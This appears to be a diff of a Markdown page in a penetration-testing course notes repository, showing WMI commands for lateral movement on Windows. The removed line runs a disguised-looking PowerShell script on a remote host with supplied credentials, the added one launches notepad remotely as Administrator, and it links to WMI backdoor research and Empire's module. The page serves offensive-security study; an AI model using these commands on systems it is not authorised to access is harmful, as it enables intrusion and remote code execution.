

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Lateral Movement/Techinques.md, the part around the change. GitHub-like rendering.

````diff
--- a/Windows Lateral Movement/Techinques.md
+++ b/Windows Lateral Movement/Techinques.md
@@ -29,13 +29,15 @@ You can use this command to execute a new process on localhost:
 PS C:\> Invoke-WmiMethod -Path Win32_process -Name create -ArgumentList "calc.exe" -Verbose
 ```
 
-However you can use/adapt this command to execute a new process in a remote machine:
+However you can use/adapt this command to execute a new process in a remote machine(to do so, the firewall must be configured to allow remote WMI access):
 
 ```
-PS C:\> Invoke-WmiMethod -ComputerName $machine -Credential $cred -Impersonation 3 -Path Win32_process -Name create -ArgumentList "powershell.exe -ExecutionPolicy Unrestricted -File C:\Windows_Updates.ps1" -Verbose
+PS C:\> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList 'notepad.exe' -ComputerName 192.168.72.134 -Credential 'WIN-B85AAA7ST4U\Administrator'
 ```
 
-More WMI exec: https://www.trustedsec.com/blog/no_psexec_needed/    &   For more theory explanation refer to [here](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf).
+More WMI exec: https://www.trustedsec.com/blog/no_psexec_needed/    &
+
+Deep to WMI [here](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf).
 
 Python implementation(empire) of this WMI technique: https://github.com/EmpireProject/Empire/blob/master/lib/modules/powershell/lateral_movement/invoke_wmi.py
 
````
